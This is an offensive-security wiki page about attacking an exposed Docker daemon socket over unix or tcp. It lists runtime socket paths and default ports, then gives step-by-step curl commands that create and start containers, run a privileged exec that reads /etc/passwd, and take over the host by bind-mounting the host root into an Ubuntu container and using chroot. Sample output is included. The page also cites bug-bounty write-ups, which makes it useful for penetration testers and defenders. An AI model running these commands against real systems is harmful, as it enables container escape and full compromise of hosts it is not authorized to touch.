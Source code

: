 The Docker daemon can listen for [Docker Engine API](https://docs.docker.com/engine/api/) requests via three different types of socket:
- `unix`
- `tcp`
- `fd`

By default, Docker runs through a non-networked UNIX socket, which is created at `/var/run/docker.sock` and requires either root permission or docker group membership.

{% hint style="info" %}
Additionally, pay attention to the runtime sockets of other high-level runtimes:
- dockershim: `unix:///var/run/dockershim.sock`
- containerd: `unix:///run/containerd/containerd.sock`
- cri-o: `unix:///var/run/crio/crio.sock`
- frakti: `unix:///var/run/frakti.sock`
- rktlet: `unix:///var/run/rktlet.sock`
- ...
{% endhint %}

A `tcp` socket is used to remotely access the Docker daemon, for which the default setup provides un-encrypted and un-authenticated direct access. It is conventional to use port **2375** for un-encrypted, and port **2376** for encrypted communication with the daemon.

On Systemd-based systems, communication with the Docker daemon can occur over the Systemd socket `fd://`.

Sometimes the Docker daemon can be accessed inside the container or over the network. It is often leads to commands execution on the host system and escape from the container.

# List of all containers

`curl` command to list all containers on the host over `unix` socket.

```bash
$ curl -s --unix-socket /var/run/docker.sock http:/containers/json
```

`curl` command to list all containers on the host over `tcp` socket.

```bash
$ curl -s http://<host>:<port>/containers/json
```

# Create a container

`curl` command to create container over `unix` socket.

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    --unix-socket /var/run/docker.sock \
    "http:/containers/create?name=${CONTAINER_NAME}" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{ "Image": "alpine:latest", "Cmd": [ "id" ] }'
```

`curl` command to create container over `tcp` socket.

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    "http://<host>:<port>/containers/create?name=${CONTAINER_NAME}" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{ "Image": "alpine:latest", "Cmd": [ "id" ] }'
```

# Start the container

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    "http://<host>:<port>/containers/${CONTAINER_NAME}/start" \
    -X POST \
    -H "Content-Type: application/json" 
```

# Code execution in a container

First you need to create an instance of `exec` that will run in the container.

```bash
$ curl \
    -s \
    "http://<host>:<port>/containers/<container_id>/exec" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}'

HTTP/1.1 201 Created
...

{"Id":"913c5ce2f3bc3e929166f2b402512a02c1669c03e515ef793513390ca1c3fdc3"}
```

Now that `exec` has been created, you need to run it.

```bash
$ export EXEC_ID=913c5ce2f3bc3e929166f2b402512a02c1669c03e515ef793513390ca1c3fdc3
$ curl \
    -s \
    "http://<host>:<port>/exec/${EXEC_ID}/start"
    -X POST \
    -H "Content-Type: application/json" \
    -d '{"Detach": false,"Tty": false}' \

HTTP/1.1 200 OK
...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

# Host takeover

To execute commands on the host system, start the Docker container and mount the host root directory on the container volume.

1. Download ubuntu image.

    ```bash
    $ curl \
        -s \
        "http://<host>:<port>/images/create?fromImage=ubuntu&tag=latest" \
        -X POST \
        -H 'Content-Type: application/json'
    ```

2. Create a container.

    ```bash
    $ curl \
        -s \
        "http://<host>:<port>/containers/create"
        -X POST \
        -H "Content-Type: application/json" \
        -d '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "ubuntu","Volumes": {"/hostfs/": {}},"HostConfig": {"Binds": ["/:/hostfs"]}}'
    ```

3. Start the container.
4. In order to execute commands on the host system, change the root directory.

    ```bash
    $ chroot /hostfs
    ```

# References

- [Writeup: Microsoft Dynamics Container Sandbox RCE via Unauthenticated Docker Remote API 20,000$ Bounty](https://hencohen10.medium.com/microsoft-dynamics-container-sandbox-rce-via-unauthenticated-docker-remote-api-20-000-bounty-7f726340a93b)
- [Write up: Escaping the Cloud Shell container](https://offensi.com/2019/12/16/4-google-cloud-shell-bugs-explained-introduction/)
- [Quarkslab's Blog: Why is Exposing the Docker Socket a Really Bad Idea?](https://blog.quarkslab.com/why-is-exposing-the-docker-socket-a-really-bad-idea.html)
